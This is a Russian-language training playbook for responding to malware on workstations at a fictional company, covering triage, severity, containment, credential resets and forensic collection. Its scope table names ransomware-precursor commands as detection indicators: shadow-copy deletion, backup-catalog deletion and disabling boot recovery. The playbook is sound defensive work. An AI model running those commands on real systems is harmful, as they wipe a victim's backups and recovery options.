

# PB-04 Вредоносное ПО на рабочей станции

> Учебный плейбук для вымышленной компании «Альфа-Трейд». Роли, уровни критичности P1–P4, полномочия и ритм статусов взяты из [IR-плана](../plan/ir-plan.md). Всё, что нужно сверить с первоисточником, собрано в разделе [«Допущения и ограничения»](#допущения-и-ограничения). Сокращения расшифрованы в [Приложении Г](#приложение-г-сокращения).

## TL;DR

- **Когда применять:** антивирус (АВ), EDR, NGFW, SIEM или сам сотрудник показали признаки вредоносного ПО (ВПО) на рабочей станции, и сработка уже подтверждена как TP (до этого работают PB-S3 и PB-S4).
- **Главное правило:** «антивирус удалил» это начало проверки, а не её конец. Решает не то, удалил ли АВ файл, а **выполнился ли код и что он успел сделать**. Неясно, значит считайте, что выполнился.
- **Критичность берите по худшему признаку:** заблокировано до запуска дает P4; запуск на одной рядовой станции дает P3; успешный C2, инфостилер, HackTool, отключение защиты, закрепление или больше одного хоста дают P2; доступ к LSASS на ПК администратора, предвестники шифровальщика или выгрузка ПДн дают P1.
- **Порядок работы:** зафиксируйте телеметрию → изолируйте хост или снимите память (порядок зависит от активности C2) → получите образец и SHA256, только потом блокируйте хеш → отрежьте атакующего от учёток **после изоляции и только с чистого устройства** → найдите другие хосты по семи осям → переустановите хост.
- **Пароля мало.** При инфостилере отзовите сессии и токены, проверьте MFA и правила пересылки, передайте владельцам список сервисов из браузера, смените пароль локального администратора (LAPS) и учётку VPN.
- **ПДн:** при любом обоснованном подозрении сразу подключайте юриста/DPO. На первичное уведомление Роскомнадзора есть 24 часа с момента выявления.

## Шпаргалка: первые 30 минут

| № | Действие | Кто | Срок |
| --- | --- | --- | --- |
| 1 | **Заведите тикет.** Время сработки и начала работы пишите в UTC, в отчёте дублируйте UTC+3 | L1 | P1 15 мин, P2 1 ч, P3 4 ч от сработки |
| 2 | **Проверьте, что агент EDR онлайн** и когда последний раз выходил на связь. Офлайн, значит параллельно [ветка H](#63-ветка-h-хост-офлайн-вне-vpn-или-без-edr) | L1 | ≤ 2 мин |
| 3 | **Исключите FP:** подпись, известное ПО, заявка ИТ, EICAR. Исключение утверждает L2, не L1 | L1 | ≤ 5 мин |
| 4 | **Ответьте на вопрос «выполнялся ли код?»** по событиям процессов, Prefetch, RunMRU, 4104. Неясно, значит «да» | L1 | ≤ 10 мин |
| 5 | **Запуск подтверждён и есть хотя бы один признак P2:** **позвоните** дежурному L2, а не только оставьте тикет | L1 | Немедленно |
| 6 | **Заполните обязательные поля тикета** и вынесите вердикт по [дереву решений](#51-дерево-решений) | L1 | P1 15 мин, P2 30 мин, P3 1 ч |
| 7 | **Зафиксируйте дерево процессов и сетевые события** (экспорт или скриншоты в тикет) | L2 | До изоляции |
| 8 | **Решите порядок «изоляция ↔ память».** Активный C2, ручная работа или выгрузка данных, значит сначала изоляция. Хост рядовой и сети нет, значит сначала память (5–15 мин) | L2 | P1 немедленно, P2 ≤ 15 мин, P3 ≤ 1 ч |
| 9 | **Изолируйте хост через EDR** (канал EDR сохраняется). Одну рядовую станцию L2 изолирует сам, больше одного хоста, VIP или ПК бизнес-процесса утверждает IM | L2 | Сразу после решения |
| 10 | **Позвоните пользователю** по шаблону из раздела 11. Не через почту и мессенджер на этом устройстве | L2 / ИТ | Сразу после изоляции |
| 11 | **Получите образец, посчитайте SHA256, затем заблокируйте хеш.** Домены и URL блокируйте в первую очередь, IP только если не CDN и не облако | L2 | ≤ 1 ч |
| 12 | **Уведомите IM** при P2 и выше | L2 | ≤ 15 мин после присвоения |

## Чего делать нельзя

До разрешения L2:

- **Не перезагружайте и не выключайте хост**, не отключайте питание.
- **Не запускайте полное сканирование и «лечение»**, не удаляйте файлы вручную.
- **Не переустанавливайте ОС** и не отдавайте ПК в Service Desk по заявке «тормозит».
- **Не загружайте файл в VirusTotal и публичные песочницы.** Только поиск по хешу, домену и IP. Иначе утечёт документ-приманка, а атакующий увидит, что его нашли.
- **Не блокируйте IP общего назначения** (CDN, облака, Telegram API, GitHub) без IM. Отрежете легитимные сервисы, в том числе нужные магазину, а атакующий просто сменит IP.
- **Не меняйте пароль пользователя с этого хоста или до изоляции.** Новый пароль уйдёт стилеру или кейлоггеру.
- **Не входите на хост по RDP или локально под доменным администратором.** Учётные данные попадут в память заражённого хоста. Только EDR live response или отдельная учётка.

На любом этапе:

- **Не блокируйте хеш до получения образца.** Карантин или удаление может уничтожить единственный экземпляр.
- **Не изолируйте при P4** (заблокировано до выполнения) и не сбрасывайте «всё всем». Это лишний простой бизнеса.
- **Не блокируйте IOC по одному при признаках целевой атаки.** Только одно окно сдерживания по команде IM.
- **Не снимайте изоляцию с хоста «как есть»**, до переустановки.
- **Не переносите `AppData`, исполняемые файлы, профили браузеров и расширения** на новый хост.

## 1. Цель и область применения

**Цель:** подтвердить или опровергнуть выполнение вредоносного кода на рабочей станции, остановить его, найти все затронутые хосты и учётные данные, удалить причину, вернуть сотрудника к работе на чистом устройстве и закрыть путь проникновения.

**Что входит:**

- Рабочие станции и ноутбуки сотрудников под Windows (основной случай). Станции разработчиков на macOS и Linux ведите по тем же фазам, но с другими артефактами.
- Офисные и удалённые устройства: через VPN, в том числе с раздельным туннелированием (split tunnel), и вне VPN.
- Классы ВПО: загрузчики, инфостилеры, RAT и C2-импланты, майнеры, вредоносные расширения браузера, неразрешённые средства удалённого администрирования (RMM), PUA и adware (по упрощённой ветке F).
- Векторы: почта, веб (malvertising, SEO-отравление, поддельные обновления браузера), ClickFix, мессенджеры, USB, нелегальный софт.

**Что не входит (переходите в другой плейбук):**

| Признак | Куда |
| --- | --- |
| Сработка ещё не подтверждена как TP | PB-S3 / PB-S4, затем сюда |
| Заражён сервер (AD, 1С, база, файловый сервер) | Отдельный сценарий / PB-02; минимум P2, сервер изолируйте только с согласия IM и владельца системы |
| Шифрование, `vssadmin delete shadows`, `wbadmin delete catalog`, `bcdedit /set recoveryenabled no`, массовое переименование | PB-02, P1 |
| Ручная работа оператора, движение к серверам | PB-02 (предвестник), P1/P2, ведёт IM |
| Использование украденных учёток: входы из нетипичных стран, новые MFA-методы, правила пересылки | Параллельно PB-03 / PB-10 |
| Признаки выгрузки ПДн клиентов | Параллельно PB-05, DPO немедленно |
| Потерянное или украденное устройство | PB-09 |

## 2. Паспорт

| Поле | Значение |
| --- | --- |
| ID | PB-04 |
| Версия | 1.0 (дата: заполните при утверждении; следующий пересмотр через 6 месяцев или после P1/P2 по этому сценарию) |
| Владелец | Руководитель ИБ, он же руководитель реагирования (IM). Исполнители: L1, L2 |
| Критичность по умолчанию | **P3**: подтверждён запуск на одной рядовой станции |
| Понижение до P4 | Файл заблокирован до выполнения, следов запуска нет |
| Повышение до P2/P1 | По [матрице критичности 5.4](#54-критичность-по-худшему-признаку). Критичность берите по худшему признаку и пересматривайте по ходу расследования |
| Уточнение к IR-плану | В таблице плана P3 это «антивирус не удалил файл», а P4 «антивирус удалил вложение». PB-04 уточняет критерий: **выполнился / не выполнился**. Пример в плане стоит поправить |
| Техники MITRE ATT&CK | [Приложение А](#приложение-а-mitre-attck). Где что искать, в разделе 8 |
| Связанные плейбуки | PB-S3 (сработка АВ) и PB-S4 (сработка EDR) до подтверждения; PB-01 (фишинг), если вектор почта; PB-02 (шифровальщик) при предвестниках; PB-03 / PB-10 (компрометация учётки / облачной учётки) при украденных учётных данных; PB-05 (утечка) при ПДн; PB-07 (нарушение сотрудником) при нелегальном софте и своём RMM; PB-08 (взлом веб-приложения), если украден доступ к админке сайта; PB-09 (утеря устройства) |

**Целевые сроки по фазам** (учебные):

| Контрольная точка | P1 | P2 | P3 | P4 |
| --- | --- | --- | --- | --- |
| Начало работы (по IR-плану) | 15 мин, 24/7 | 1 ч | 4 ч | 1 рабочий день |
| L1 закончил триаж и эскалировал | 15 мин | 30 мин | 1 ч | — |
| Решение об изоляции после подтверждения | немедленно | ≤ 15 мин | ≤ 1 ч | не требуется |
| Летучие данные и триаж-пакет собраны | ≤ 1 ч от изоляции | ≤ 1 ч | ≤ 4 ч | — |
| Сессии отозваны, пароли сменены | ≤ 1 ч | ≤ 1 ч от подозрения на кражу | ≤ 1 рабочий день (если нужно) | — |
| Скоупинг по всем осям | ≤ 4 ч | ≤ 4 ч | ≤ 1 рабочий день | по хешу и письму ≤ 1 рабочий день |
| Переустановка и возврат пользователя | по плану IM | ≤ 1 рабочий день | ≤ 2 рабочих дней | — |
| Статус IM руководству | каждые 2 ч | дважды в день | при закрытии | — |

## 3. Подготовка

Без этих условий часть шагов невыполнима. Если пункт не выполнен, запишите это в тикет как ограничение расследования.

- [ ] EDR онлайн на 100 % рабочих станций; есть еженедельный отчёт о хостах без агента и молчащих агентах
- [ ] АВ/EDR работают в режиме «карантин», а не «удалить»; tamper protection включена
- [ ] Включены аудит 4688 с командной строкой, PowerShell Script Block Logging (4104), аудит задач (4698), Sysmon с проверенной конфигурацией; журналы рабочих станций идут в SIEM; размер локальных журналов увеличен (Security.evtx по умолчанию мал)
- [ ] Журналы DNS и прокси/NGFW хранятся не меньше 90 дней
- [ ] Набор форензики (EDR live response, WinPmem, KAPE/Velociraptor) лежит на защищённом ресурсе с проверенными хешами; есть хранилище улик с журналом доступа
- [ ] Есть эталонный образ ОС, процедура переустановки (целевое время ≤ 4 ч) и запас подменных ноутбуков
- [ ] Ведётся список «особых» рабочих мест и разрешённого ПО/RMM; права L1/L2 в EDR и NGFW определены; есть контакт банка для экстренной блокировки платежей
- [ ] Готовы шаблоны сообщений из раздела 11

## 4. Роли и ответственность

Матрица RACI: **R** выполняет, **A** утверждает и отвечает за результат, **C** консультирует, **I** получает информацию.

**Заранее согласованные полномочия (по IR-плану):** L2 сам изолирует одну рабочую станцию и блокирует один внешний IP. Всё сверх этого утверждает IM.

| Действие | L1 | L2 | IM | ИТ | Владелец системы / руководитель подразделения | Юрист/DPO | PR | Директор |
| --- | --- | --- | --- | --- | --- | --- | --- | --- |
| Триаж, тикет, вердикт TP/FP | R | A | | | | | | |
| Закрытие как FP, предложение исключения | R | A | | | | | | |
| Присвоение P4/P3 | R | A | | | | | | |
| Присвоение P2/P1 | C | R | A | | | | | I (P1) |
| Изоляция одной рядовой станции | I | R/A | I | I | I | | | |
| Изоляция больше одного хоста, VIP, «особого» ПК, ПК бизнес-процесса | | R | A | C | C | | | |
| Блок явно вредоносного хеша, домена, одного IP | | R/A | I | | | | | |
| Блок легитимного сервиса, CDN, облака | | R | A | C | C | | | |
| Сбор памяти, триаж-пакета, образца | | R/A | I | C | | | | |
| Полный образ диска для правоохранителей | | R | A | C | | C | | I |
| Отзыв сессий, смена пароля, проверка MFA | | A (инициирует) | I | R | C | | | |
| Смена привилегированных учёток, krbtgt | | C | A | R | | | | |
| Действия по банк-клиенту и ключам ЭП | | C | A | | R (бухгалтерия, финдиректор) | C | | I |
| Оценка затрагивания ПДн, уведомление РКН | | C | R | | C | A (по решению директора/IM) | | A (P1) |
| Переустановка ОС, подменный ноутбук | | A (подтверждает сбор улик) | I | R | I | | | |
| Снятие изоляции | | R/A (P3); R (P2+) | A (P2+) | C | I | | | |
| Сообщение сотрудникам при массовом векторе | | C | A | | | | R | |
| Закрытие инцидента | | R/A (P3–P4) | A (P1–P2) | C | | C (если ПДн) | | |

**Открытый вопрос к IR-плану.** Ночью при активном C2 ждать L2 до часа долго. Предложение: разрешить L1 изолировать **одну** рабочую станцию по жёстким критериям (запуск подтверждён, плюс успешные соединения с C2 или признаки стилера) с немедленным звонком L2. Сейчас план этого не позволяет, это изменение плана, решает IM.

## 5. Триаж

Триаж делится на две части. **Быстрый триаж (L1, первые 15–30 минут)** отвечает на вопросы «это FP?» и «выполнялся ли код?». **Глубокий триаж (L2)** определяет класс ВПО, проверяет сеть и модификаторы и выбирает ветку сдерживания. Оба идут по одному дереву решений.

### 5.1. Дерево решений



Ниже каждый узел расписан подробно. Номера узлов совпадают с номерами в схеме.

**Вердикты:**

- **FP:** закройте с обоснованием и предложением тюнинга.
- **Benign TP:** PUA или adware без вреда. Удалите, поставьте P4, сообщите руководителю и ИТ о нарушении политики ПО. Нелегальный софт или свой RMM, значит возможно PB-07.
- **TP без ущерба:** ветка A, заблокировано до выполнения, P4.
- **Инцидент:** ветки B–E, P3–P1.

### 5.2. Быстрый триаж (L1, первые 15–30 минут)

**Перед узлом 1. Заведите тикет.**

- Время сработки и начала работы пишите **в UTC**, в отчёте дублируйте UTC+3, как в шаблоне IR-плана.
- Дальше записывайте каждое действие со временем.
- **С пользователем связывайтесь только по телефону.** Не через его почту или мессенджер на этом устройстве.

**Узел 1. Агент EDR онлайн? (≤ 2 мин)**

- Проверьте в консоли EDR: `last_seen`, политика, tamper-события; для Defender события 5001 / 5007.
- **Агент офлайн:** переходите к [ветке H](#63-ветка-h-хост-офлайн-вне-vpn-или-без-edr) параллельно с триажем.
- **Пропавшая телеметрия, отключённая защита, новые исключения:** это P2.

**Узел 2. Это FP? (≤ 5 мин)**

| Вопрос | Где смотреть | Что считать признаком |
| --- | --- | --- |
| Что сработало и какое действие выполнило СЗИ? | Консоль АВ/EDR, тикет SIEM | «Удалён / карантин» до запуска мягче. «Обнаружен, действие не выполнено», «ошибка лечения», «процесс завершён» значат, что код работал |
| Какой тип детекта? | Имя детекта | Malware / Trojan / Stealer: полная обработка. PUA / adware / not-a-virus: ветка F. HackTool: P2. EICAR от ИТ: FP |
| Не FP ли это? | Подпись, вендор, заявки ИТ | Подписанный известный файл с документированным поведением, EICAR от ИТ, утилита администрирования по заявке дают FP. **Исключение утверждает L2, не L1** |

**Узел 3. Код выполнялся? (≤ 10 мин)**

| Вопрос | Где смотреть | Что считать признаком |
| --- | --- | --- |
| Где лежит файл? | Путь из детекта | `Downloads`, кэш браузера, `Temp\Outlook`: вероятно, не запускался. `%AppData%`, `%LocalAppData%\Temp\<random>`, `%ProgramData%`, `C:\Users\Public`: запускался или распаковывался |
| Откуда пришёл? | Родитель в дереве процессов; Zone.Identifier (`HostUrl`, `ReferrerUrl`; Sysmon 15); трассировка почты; NGFW/прокси | `outlook.exe` значит почта (PB-01); браузер значит веб; `explorer.exe` + `powershell`/`mshta` без файла значит ClickFix; съёмный диск значит USB; `telegram.exe` значит мессенджер. Нет Zone.Identifier у файла из ISO или архива, значит обход MotW (T1553.005) |
| Выполнялся ли? | EDR process create; Sysmon 1 / 4688; Prefetch; RunMRU; 4104 | Есть событие процесса из файла или дочерние процессы, значит **да**. Детект только при записи, процесса и дочерних файлов нет, значит вероятно нет. **Неясно, значит считайте «да»** |

- **Нет:** ветка A, P4. Найдите источник, проверьте письмо у всех получателей, заблокируйте URL, закройте.
- **Да или неясно:** переходите к узлу 4. **Если есть хотя бы один признак P2, позвоните дежурному L2 немедленно**, не ждите ответов на все вопросы.

### 5.3. Глубокий триаж (L2)

**Узел 4. Класс ВПО?**

- **PUA, adware, майнер без иной активности:** ветка F, Benign TP, P4/P3.
- **Инфостилер:** ветка E, P2. Сразу к сессиям и паролям (6.2).
- **Загрузчик, RAT, неизвестно:** узел 5.
- **Доступ к LSASS, разведка домена, C2-фреймворк, больше одного хоста:** ветка D, P1/P2, PB-02, ведёт IM.

**Узел 5. Успешная сеть к C2 или вторая стадия?**

| Вопрос | Где смотреть | Что считать признаком |
| --- | --- | --- |
| Что сделал после запуска? | Дерево процессов, сетевые, файловые и реестровые события EDR | Дочерние LOLBins, загрузка файлов, запись в Run / задачи / службы, обращения к профилю браузера, к LSASS, разведка |
| Была ли сеть? | EDR, NGFW, DNS после времени запуска | Только DNS или только `action=blocked` дают P3 с анализом. Повторяющиеся `allowed` с ненулевым `bytes_out` дают P2 |
| Репутация? | TI, VirusTotal, **только поиск по хешу, домену, IP** | «0 детектов» и «хеш неизвестен» **не означают «чисто»**. Решайте по поведению |

- **Нет, закрепления нет:** ветка B, P3.
- **Да:** ветка C, P2.

**Узел 6. Модификаторы: особый ПК, ПДн, отключение СЗИ?**

| Вопрос | Где смотреть | Что считать признаком |
| --- | --- | --- |
| Есть ли ещё такие? | SIEM/EDR за 30 дней: хеш, имя+путь, домен, командная строка (запрос Q3 в [Приложении В](#приложение-в-примеры-запросов-и-команд)) | Больше одного хоста, значит P2 |
| Кто пользователь и что за хост? | CMDB, список «особых» рабочих мест, AD | Админ домена, ИТ/ИБ, бухгалтерия с банк-клиентом, руководство, разработчик, доступ к базе клиентов / 1С / админке сайта: при подтверждённом запуске не ниже P2 |

- **Модификатор есть:** поднимите на один уровень. ПДн, значит P1, DPO и PB-05.

**Поля тикета, обязательные к концу триажа:**

```text
Хост: имя, IP, ОС, офис/удалёнка/VPN, статус агента EDR/АВ (онлайн, last seen)
Пользователь: логин, отдел, локальный админ?, привилегированные группы?, доступ к ПДн/1С/сайту/банк-клиенту
Сработка: источник, правило, время (UTC), детект (семейство, тип), действие СЗИ
Файл: путь, имя, SHA256, подпись, размер, источник (Zone.Identifier / письмо / URL / USB)
Процессы: родитель -> процесс -> потомки, командные строки
Сеть: домены/IP/URL после запуска, allowed/blocked, bytes_out
Распространённость: число хостов по хешу / имени+пути / домену / командной строке
Вердикт: TP / FP / Benign TP + обоснование; ветка A–H
Критичность: P_ и признак, по которому присвоена
Эскалация: кому, время, канал
```

### 5.4. Критичность по худшему признаку

| Признак | Уровень |
| --- | --- |
| Заблокировано до выполнения, следов запуска нет, хост рядовой, других хостов нет | P4 |
| PUA / adware, установленное пользователем, без вреда (Benign TP) | P4 |
| Запуск подтверждён, один хост, нет успешного C2, нет кражи учётных данных, закрепление не найдено; майнер на рядовом хосте | P3 |
| Успешный C2 или загрузка второй стадии; инфостилер (подтверждён или вероятен); HackTool; отключение защиты; закрепление; больше одного хоста | P2 |
| «Особый» хост или пользователь при подтверждённом запуске | не ниже P2 |
| Доступ к LSASS / кража учётных данных на ПК администратора, признаки доступа к AD (DCSync) | P1 |
| Предвестники шифровальщика: C2-фреймворк + разведка домена + отключение защиты, движение к серверам | P1, PB-02 |
| Признаки выгрузки ПДн клиентов (файлы выгрузок, украденный и использованный доступ к базе или админке) | P1, PB-05, DPO |

### 5.5. Когда эскалировать

- **L1 → L2, звонком, немедленно:** любой подтверждённый или неясный запуск, «особый» хост, HackTool, отключение защиты, агент офлайн при признаках заражения. Не ждите ответов на все вопросы.
- **L2 → IM (≤ 15 мин):** P2 и выше; больше одного хоста; изоляция VIP или ПК бизнес-процесса; блок легитимного сервиса; признаки кражи учётных данных или ручной работы.
- **IM → директор и юрист/DPO:** P1; **любое обоснованное подозрение на затрагивание ПДн** сразу, не дожидаясь форензики.
- **Сомневаетесь между двумя уровнями:** выбирайте более высокий и понижайте по фактам.

## 6. Сдерживание

**Тип атаки определяет тактику.**

- **Товарное ВПО** (массовый загрузчик, стилер, майнер) сдерживайте сразу.
- **Признаки ручной работы оператора (ветка D):** частичное сдерживание опасно. Атакующий перейдёт на резервный канал и ускорит шифрование. Тогда IM за несколько часов определяет масштаб и назначает **одно окно** одновременного сдерживания всех хостов и учёток.

### 6.1. Краткосрочное сдерживание

| № | Шаг | Кто | Инструмент | Кто утверждает |
| --- | --- | --- | --- | --- |
| 1 | **Зафиксируйте дерево процессов и сетевые события** (экспорт или скриншоты в тикет) | L2 | Консоль EDR | — |
| 2 | **Решите порядок «изоляция ↔ память».** Активный C2, ручная работа, выгрузка данных, значит **сначала изоляция** (секунды; память она не стирает). Нет сетевой активности, хост рядовой, значит сначала память и летучие данные (5–15 мин), потом изоляция | L2 | — | — |
| 3 | **Изолируйте хост** (канал EDR сохраняется) | L2 | EDR network isolation | L2 для одной рядовой станции. IM для больше чем одного хоста, VIP, ПК бизнес-процесса. Если при P2 согласие руководителя не получено за 15 мин, решает IM |
| 4 | **Позвоните пользователю** (шаблон в разделе 11) | L2 / ИТ | Телефон | — |
| 5 | **Получите образец** (карантин или file retrieval), посчитайте SHA256, **затем** заблокируйте хеш | L2 | EDR, АВ | — |
| 6 | **Не завершайте вредоносный процесс до дампа памяти**, если это не увеличивает риск | L2 | EDR | — |
| 7 | **Заблокируйте домены и URL** (в первую очередь), затем IP, только если не CDN и не облако | L2 | NGFW, прокси, DNS-фильтр, сетевые IOC в EDR (если умеет) | L2 для явно вредоносных и одного IP. IM для легитимных сервисов и CDN |
| 8 | **Вектор почта:** заблокируйте отправителя и вложение, удалите письмо у всех получателей | L2 | Почтовый шлюз, облачная почта | — (PB-01) |
| 9 | **Учётные данные по ветке, только после изоляции, только с чистого устройства** (6.2) | ИТ по заявке L2 | AD, облачная почта, VPN, LAPS | IM для привилегированных учёток |

### 6.2. Учётные данные и сессии по веткам

- **A (P4):** не требуется.
- **B, F (P3/P4):** доменный пароль пользователя меняйте по решению L2.
- **C, E (P2):** ИТ с чистого устройства:
  1. **Отзывает все сессии и токены** в облачной почте, SSO, VPN и меняет доменный пароль. Делайте это одновременно: смена пароля сама по себе не обязательно отзывает токены.
  2. **Проверяет методы MFA, правила пересылки, делегирование, подключённые OAuth-приложения, входы за 14 дней** (PB-03 / PB-10).
  3. **L2 составляет список сервисов** из хранилищ паролей браузера (только названия сайтов, сами пароли не извлекайте) и из интервью: админка сайта, маркетплейсы, платёжный агрегатор, рекламные кабинеты, хостинг, DNS-регистратор, 1С, банк-клиент. Список передайте владельцам систем на смену паролей.
  4. **Меняет VPN-учётку или сертификат устройства и пароль локального администратора (LAPS).**
- **D (P1/P2):** всё из C/E плюс все учётки, входившие на хост за 30 дней (4624, типы 2/10/11), прежде всего привилегированные. Нужна ли двойная смена krbtgt, решают IM и ИТ по PB-02 / PB-03.
- **Бухгалтерия с банк-клиентом или ключами ЭП:** бухгалтерия немедленно звонит в банк: приостановить исходящие платежи, отозвать и перевыпустить ключи по процедуре банка, проверить платежи за период. Решает IM с финансовым директором.
- **Пользователю:** смените с **другого** устройства пароли личных сервисов, если вводили их на этом ПК.

### 6.3. Ветка H: хост офлайн, вне VPN или без EDR

1. **Заблокируйте учётку в VPN, отзовите сессии** (6.2), заблокируйте устройство условным доступом в облачной почте (если есть).
2. **Заблокируйте IOC** на NGFW, DNS, прокси. При активной VPN-сессии разорвите её.
3. **Позвоните пользователю:** «Отключите Wi-Fi или кабель, **не выключайте** ноутбук, передайте его в ИТ».
4. **Поставьте в EDR изоляцию при выходе на связь**, если продукт это поддерживает.
5. Помните: блок на NGFW не защищает ноутбук вне VPN или при split tunnel.

### 6.4. Долгосрочное сдерживание

- Хост остаётся изолированным до переустановки. Переустанавливайте физически или в изолированном сегменте, а не возвратом в рабочую сеть.
- Поставьте временные правила NGFW/DNS на IOC и категорию источника, правило на почтовом шлюзе на тип вложения.
- Усильте наблюдение за учётками пользователя и всеми, кто входил на хост: входы с новых IP и устройств.
- Вредонос вернулся после изоляции или на другом хосте, значит новая итерация скоупинга и пересмотр уровня.

Полный список запретов на этапе сдерживания собран в разделе [«Чего делать нельзя»](#чего-делать-нельзя).

## 7. Сбор и сохранение артефактов

**Принципы:**

- **Собирайте средствами EDR** (live response, сбор пакета), а не руками на хосте.
- Инструменты берите только с доверенного ресурса с проверенными хешами.
- Результаты пишите в консоль EDR или в хранилище улик, **не на диск хоста**.
- Каждую команду и её время записывайте в тикет.
- Порядок по убыванию летучести (RFC 3227).

| Порядок | Артефакт | Как собрать | Когда обязательно |
| --- | --- | --- | --- |
| 1 | Телеметрия EDR: дерево процессов, сеть, файлы, реестр | Экспорт из консоли (телеметрия хранится 7–30 дней) | Всегда |
| 2 | Дамп памяти | Функция EDR, WinPmem, DumpIt, Magnet RAM Capture; до перезагрузки, полного сканирования и завершения процесса | Любой подтверждённый запуск неоднозначного семейства, пока хост не перезагружался (с P3); при P2+ всегда |
| 3 | Процессы, сетевые соединения, DNS-кэш | `Get-CimInstance Win32_Process` (PID, PPID, CommandLine), `Get-NetTCPConnection`, `Get-DnsClientCache` → CSV в хранилище | Запуск подтверждён |
| 4 | Автозапуск | `autorunsc64.exe -accepteula -a * -c -h -s -m`; задачи, службы, WMI-подписки (`root\subscription`: `__EventFilter`, `CommandLineEventConsumer`, `__FilterToConsumerBinding`); `Get-MpPreference` (исключения) | Запуск подтверждён |
| 5 | Триаж-пакет диска | KAPE (target класса `!SANS_Triage`) или Velociraptor offline collector: `.evtx`, Prefetch, Amcache, SYSTEM (ShimCache, BAM), NTUSER.DAT (RunMRU, UserAssist), SRUM, `$MFT`, `$UsnJrnl:$J`, LNK и Jump Lists, профили браузеров (History, расширения), `ConsoleHost_history.txt`, `%AppData%`, `%LocalAppData%\Temp`, `%ProgramData%`, `C:\Users\Public`, папки Startup, карантин АВ, MPLog | P3 и выше, до переустановки |
| 6 | Образец ВПО | Из карантина АВ / EDR; архив с паролем `infected`; анализ только в изолированной песочнице (почтовая песочница компании) | Всегда, если файл есть |
| 7 | Полный образ диска | FTK Imager или аналог; до переустановки | P1, или если IM с юристом допускают обращение в полицию (ст. 272–273 УК РФ) |
| 8 | Внешние журналы | Выгрузки NGFW, DNS, прокси, облачной почты, VPN, DC (4624/4625/4768/4769/4776) за окно инцидента | Всегда при P3+ |

**Цепочка хранения (chain of custody).** Для каждой улики заполните в тикете таблицу:

| Улика | Источник (хост, путь) | Кто снял | Когда (UTC) | Инструмент | SHA256 | Где хранится | Кто получал доступ |
| --- | --- | --- | --- | --- | --- | --- | --- |

- [ ] Улики лежат в хранилище ИБ с ограниченным доступом и журналом доступа. Не общий диск, не машина аналитика
- [ ] Срок хранения улик определил IM (с юристом при P1)
- [ ] На рабочей станции есть личные данные сотрудника: основание доступа (ЛНА об использовании корпоративных устройств, уведомление о мониторинге) записано в тикет, сбор ограничен целью расследования

## 8. Расследование

L2 отвечает на вопросы и записывает каждый ответ с источником (событие или артефакт). **«Да» или «не исключено» по вопросам 6, 9 и 10 сразу сообщайте IM, по вопросу 10 ещё и DPO.**

| № | Вопрос | Источники |
| --- | --- | --- |
| 1 | Что именно выполнилось, когда, под какой учёткой, с какими правами? | EDR, Sysmon 1 / 4688, Prefetch (до 8 времён запуска; для DLL и скриптов `RUNDLL32.EXE-*.pf`, `MSHTA.EXE-*.pf`), Amcache (наличие не значит запуск), ShimCache (не доказывает запуск на современных Windows), BAM, UserAssist |
| 2 | Вектор: письмо, URL, ClickFix, USB, мессенджер, нелегальный софт, эксплуатация уязвимости? Кто ещё получил или посетил? | Почтовый шлюз и песочница, история браузера, Zone.Identifier, RunMRU, `ConsoleHost_history.txt`, setupapi.dev.log, NGFW/прокси, интервью |
| 3 | Хронология: когда **первое** появление (не первая сработка)? | `$MFT`, `$UsnJrnl`, EDR, SIEM. Окно поиска минимум 7 дней до первого появления, скоупинг 30 дней |
| 4 | Что сделало ВПО: дочерние процессы, загрузки (T1105), закрепление, изменения защиты? | Autoruns, 4698 / 4702, TaskScheduler 106/140/200, 7045 / 4697, WMI-Activity 5861, Sysmon 12/13/19–21, Defender 5001/5007, 1102 / 104 (очистка журналов) |
| 5 | Была ли сеть: домены, IP, интервалы, объём исходящего трафика? | NGFW, прокси, DNS, Sysmon 3/22, SRUM (трафик по приложениям около 30 дней), память (`windows.netscan`) |
| 6 | Украдены ли учётные данные: LSASS, `Login Data` / `Cookies` / `Local State`, мессенджеры, VPN-конфиги, кейлоггер? | Sysmon 10, файловые события EDR, память (`windows.malfind`, `windows.cmdline`), семейство по TI |
| 7 | Кто входил на хост за 30 дней (4624 тип 2/10/11, 4648)? Есть ли привилегированные? | Security на хосте, SIEM, TerminalServices 21/24/25/1149 |
| 8 | Было ли движение с хоста: 4624 тип 3/10 с его IP на других хостах, 7045 / 4698 на соседях? | DC и серверы, EDR |
| 9 | Используются ли украденные учётки: входы в облачную почту, SaaS, VPN, админку сайта с новых IP или устройств? | Журналы облачной почты, VPN, WAF / CMS |
| 10 | Были ли на хосте ПДн клиентов (выгрузки, доступ к 1С/CRM/базе) и признаки их передачи? | Файловая система, EDR, NGFW `bytes_out`, T1041 / T1567.002 |
| 11 | Скоуп: есть ли другие хосты? | По осям: **файл** (хеш, имя, путь, подписант), **сеть** (домен, IP, URL, SNI, JA3/JA4, если NGFW пишет), **DNS** (все хосты, разрешавшие C2; находит и хосты без EDR), **почта** (то же письмо), **пользователь** (куда входила учётка после заражения), **хост** (кто входил на него), **поведение** (та же командная строка, связка родитель→потомок, имя задачи) |
| 12 | Товарное ВПО или целевая атака? | Семейство по TI и YARA/capa, признаки ручной работы (интервалы команд, разведка), уникальность образца |

